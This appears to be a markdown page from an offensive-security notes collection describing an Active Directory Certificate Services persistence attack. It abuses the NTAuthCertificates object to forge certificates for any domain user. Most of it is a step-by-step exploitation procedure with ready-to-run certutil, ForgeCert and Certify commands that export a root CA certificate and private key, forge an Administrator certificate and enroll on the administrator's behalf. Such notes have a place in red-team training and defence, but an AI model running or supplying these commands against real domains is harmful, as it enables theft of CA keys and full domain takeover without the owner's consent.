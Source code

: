 ## Forge ANY domain certificate using stolen external Trusted Root certificate and private keys (added root/intermediate/NTAuthCAcertificates container) ##

#### What's running under the hood ####
- The object **NTAuthCertificates** defines one or more CA certificates in its `cacertificate` attribute.
- During authentication, the domain controller checks if **NTAuthCertificates** object contains an entry for the CA specified in the authenticating certificate’s Issuer field. If it is, authentication proceeds.

#### What the attack is about ####
- An attacker could generate a self-signed CA certificate and add it to the **NTAuthCertificates** object.
- Attackers can do this if they have control over the **NTAuthCertificates** AD object. With the elevated access, one can edit the NTAuthCertificates object from any system.
- This can be abused to forge certificates for any domain user using [[DPERSIST1]].
- One popular use of this attack is to abuse Trusting CA Certificates. Two forests can be configured to share the same CA for Cross Forest Certificate Enrollment using a bidirectional cross forest trust. In such a case the RootCA certificate is added to the target forest sharing the source forest CA.
- Only the RootCA certificate needs to added, but careless handling results in storing the RootCA along with the private key.

### Enumeration ###
1. **Certutil**
- Enumerate the CA/Root Stores for CA _RootCA_ certificates.
`PS C:\ADCS\Auditor> certutil -store -enterprise Root`

### Exploitation ####
- Steal the RootCA certificate.
`PS C:\ADCS\Auditor> certutil -exportpfx -p certpass -enterprise Root 51f5aa83c01b57b34635410a3738e79d C:\Windows\Tasks\RootCA.p12`

- Forge a certificate using **ForgeCert** for any domain user/computer.
`PS C:\ADCS\Auditor> C:\ADCS\Auditor\ForgeCert\ForgeCert.exe --CaCertPath "C:\Windows\Tasks\RootCA.p12" --CaCertPassword certpass --Subject "CN=Administrator,CN=Users,DC=cb,DC=corp" --SubjectAltName administrator@cb.corp --NewCertPath "C:\ADCS\Auditor\Loot\forged-ea.pfx" --NewCertPassword certpass`

- Enroll in a template like User or Administrator that permits Client Authentication.
`PS C:\ADCS\Auditor> C:\ADCS\Auditor\Certify.exe request /ca:cb-ca.cb.corp\CB-CA /template:User /onbehalfof:cb\administrator /enrollcert:"C:\ADCS\Auditor\Loot\\forged-ea.pfx" /enrollcertpw:certpass /domain:cb.corp /dc:cb-ca.cb.corp /sidextension:S-1-5-21-2928296033-1822922359-262865665-500`